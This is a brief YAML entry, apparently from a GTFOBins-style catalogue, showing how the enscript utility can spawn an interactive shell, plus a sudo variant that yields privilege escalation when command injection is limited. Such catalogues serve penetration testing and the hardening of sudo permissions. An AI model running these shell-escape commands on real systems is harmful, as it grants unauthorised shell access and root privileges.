 ```yaml
---
functions:
  shell:
    - code: enscript /dev/null -qo /dev/null -I 'sh >&2'
      description: This can be useful when only a limited command argument injection is available.
  sudo:
    - code: sudo enscript /dev/null -qo /dev/null -I 'sh >&2'
---
```

